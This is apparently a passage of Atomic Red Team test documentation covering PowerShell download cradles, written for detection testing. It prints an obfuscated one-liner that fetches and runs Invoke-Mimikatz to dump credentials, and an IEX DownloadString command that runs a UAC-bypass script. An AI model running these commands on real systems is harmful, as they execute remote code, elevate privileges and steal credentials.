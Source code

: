 #### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```






<br/>
<br/>

## Atomic Test #5 - Invoke-AppPathBypass
Note: Windows 10 only. Upon execution windows backup and restore window will be opened.

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows


**auto_generated_guid:** 06a220b6-7e29-4bd8-9d07-5b4d86742372






#### Attack Commands: Run with `command_prompt`! 


```cmd
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```






<br/>
<br/>

## Atomic Test #6 - Powershell MsXml COM object - with prompt
Powershell MsXml COM object. Not proxy aware, removing cache although does not appear to write to those locations. Upon execution, "Download Cradle test success!" will be displayed.
